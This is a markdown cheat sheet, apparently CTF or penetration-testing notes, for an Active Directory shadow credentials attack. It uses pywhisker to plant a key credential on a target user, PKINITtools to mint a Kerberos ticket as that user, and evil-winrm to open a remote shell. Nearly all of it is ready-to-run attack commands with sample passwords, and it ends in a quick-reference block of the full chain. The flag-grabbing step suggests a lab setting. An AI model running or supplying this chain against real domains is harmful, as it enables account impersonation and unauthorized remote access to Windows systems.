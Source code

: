 # Shadow Credentials (pywhisker) → PKINIT TGT → User Shell

**Scenario:** Using `pywhisker` to abuse shadow credentials and add a KeyCredentialLink to a target user account, minting a certificate and authenticating via PKINIT to obtain a Kerberos TGT. With that, we impersonate the user and gain shell access.

---

## TL;DR Flow
1) **Clone pywhisker** and generate `.pfx` for target user.  
2) **Use PKINITtools** to obtain Kerberos TGT (`gettgtpkinit.py`).  
3) **Export ccache** and configure `/etc/krb5.conf` + `/etc/hosts`.  
4) **Verify with klist**.  
5) **Leverage TGT** in `evil-winrm` for shell.  

References: pywhisker, PKINITtools, oscrypto, evil-winrm.

---

## Setup & OPSEC
- Ensure account used to run pywhisker has rights to add shadow credentials.  
- Work from venv for PKINITtools.  
- Keep `.pfx` + password secure in `/loot/shadowcreds/`.  

---

## Shadow Cred Abuse → Generate Certificate
### pywhisker
```bash
git clone https://github.com/ShutdownRepo/pywhisker.git && cd pywhisker/pywhisker

# Example: add keycredential for jpinkman
python3 pywhisker.py --dc-ip DC_IP -d DOMAIN.LOCAL \
  -u wwhite -p 'Password123!' --target jpinkman --action add
```
Output gives `.pfx` file and password (e.g., `1UCYb0YS.pfx` + `1P9EvC2tKKJlBSum4Ej4`).

---

## Convert Certificate → Kerberos TGT
### PKINITtools
```bash
cd ~ && git clone https://github.com/dirkjanm/PKINITtools.git && cd PKINITtools
python3 -m venv .venv && source .venv/bin/activate
pip3 install -r requirements.txt
pip3 install -I git+https://github.com/wbond/oscrypto.git
```

### Request TGT
```bash
python3 gettgtpkinit.py -cert-pfx ../pywhisker/pywhisker/1UCYb0YS.pfx \
  -pfx-pass '1P9EvC2tKKJlBSum4Ej4' -dc-ip DC_IP DOMAIN.LOCAL/jpinkman \
  /tmp/jpinkman.ccache
```
Generates Kerberos TGT for `jpinkman`.

---

## Kerberos Environment Setup
### Packages + Config
```bash
sudo apt-get install krb5-user -y
echo "DC_IP dc01.domain.local" | sudo tee -a /etc/hosts
sudo nano /etc/krb5.conf
# default_realm = DOMAIN.LOCAL ; kdc = dc01.domain.local
```

### Export Ticket
```bash
export KRB5CCNAME=/tmp/jpinkman.ccache
klist
```
Should list TGT for `jpinkman@DOMAIN.LOCAL`.

---

## Exploitation
### 4.1 Evil-WinRM with Kerberos
```bash
evil-winrm -i dc01.domain.local -r domain.local
```
Uses ticket cache, authenticates as `jpinkman`.

### Grab Flag
```powershell
type C:\Users\jpinkman\Desktop\flag.txt
```

---

## Quick Reference — Commands
```bash
# Shadow cred
python3 pywhisker.py --dc-ip DC_IP -d DOMAIN.LOCAL -u attacker -p pass \
  --target victim --action add

# PKINIT
python3 gettgtpkinit.py -cert-pfx victim.pfx -pfx-pass '<pw>' \
  -dc-ip DC_IP DOMAIN.LOCAL/victim /tmp/victim.ccache
export KRB5CCNAME=/tmp/victim.ccache
klist

# Shell
evil-winrm -i dc01.domain.local -r domain.local
```

---

## Tool Links
- pywhisker — https://github.com/ShutdownRepo/pywhisker  
- PKINITtools — https://github.com/dirkjanm/PKINITtools  
- oscrypto fix — https://github.com/wbond/oscrypto  
- evil-winrm — https://github.com/Hackplayers/evil-winrm  
